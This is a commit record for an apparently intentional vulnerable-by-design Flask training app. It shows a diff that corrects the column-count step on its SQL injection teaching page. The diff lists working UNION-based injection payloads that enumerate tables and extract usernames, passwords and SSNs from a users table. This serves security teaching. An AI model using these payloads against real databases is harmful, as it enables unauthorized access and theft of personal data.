

Before and after one commit to Cybevion/vulnhub, a Flask app: page /sqli/search in a window 1280 px wide. Shown: the part 57-978 px from the top of the page. Run offline with Flask 3, Linux system fonts and the light colour scheme; parts of the project's set-up code (start-up, migrations or seed data) failed here and were passed over.

Commit message:
updated the SQL Injection page wrong number to producce an error

```diff
--- a/static/js/presentation_data.js
+++ b/static/js/presentation_data.js
@@ -49,7 +49,7 @@ row = conn.execute(query)  # ← executes attacker SQL`,
     demoUrl: "/sqli/search",
     what: "Once SQL injection is confirmed, UNION-based extraction lets attackers append a second SELECT to the original query. The result of both queries is returned together — attacker sees data from any table.",
     how: [
-      { n:"1", text:"Find column count: ", code:"' ORDER BY 1-- ... ORDER BY 3-- (error = found it)" },
+      { n:"1", text:"Find column count: ", code:"' ORDER BY 1-- ... ORDER BY 4-- (error = found it)" },
       { n:"2", text:"Find string columns: ", code:"' UNION SELECT NULL,'a',NULL--  (look for 'a' in output)" },
       { n:"3", text:"Extract version/db: ", code:"' UNION SELECT NULL,version(),database()--" },
       { n:"4", text:"List tables: ", code:"' UNION SELECT NULL,table_name,NULL FROM information_schema.tables--" },
--- a/templates/sqli_search.html
+++ b/templates/sqli_search.html
@@ -57,7 +57,7 @@
       <div class="card-header"><span>💡</span><span class="card-title">UNION Attack Steps</span></div>
 
       {% set steps = [
-        ("Step 1 — Count columns", "' ORDER BY 1--\n' ORDER BY 2--\n' ORDER BY 3--  ← error here = 3 columns\nOR: ' UNION SELECT NULL,NULL,NULL--"),
+        ("Step 1 — Count columns", "' ORDER BY 1--\n' ORDER BY 2--\n' ORDER BY 3--\n' ORDER BY 4--  ← error here = 3 columns hence 4 will show an error\nOR: ' UNION SELECT NULL,NULL,NULL--"),
         ("Step 2 — Find string col", "' UNION SELECT 'a',NULL,NULL--\n' UNION SELECT NULL,'a',NULL--  ← 'a' in output = col 2 is string"),
         ("Step 3 — Extract users", "' UNION SELECT NULL,username,password FROM users--"),
         ("Step 4 — Get all data", "' UNION SELECT NULL,username||':'||password||':'||ssn,email FROM users--"),
```
